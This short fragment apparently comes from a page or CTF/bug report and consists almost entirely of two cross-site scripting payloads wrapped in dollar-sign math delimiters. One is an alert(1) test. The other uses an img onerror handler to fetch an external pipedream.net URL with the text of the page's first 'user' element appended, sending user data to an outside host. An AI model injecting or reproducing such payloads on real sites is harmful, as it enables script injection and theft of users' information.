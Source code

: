 $<img src=a onerror="alert(1)">%$
$<img src=a onerror="fetch('https://entmc8svqapf25h.m.pipedream.net/'+document.getElementsByClassName('user')[0].innerText.split('\n')[0])">%$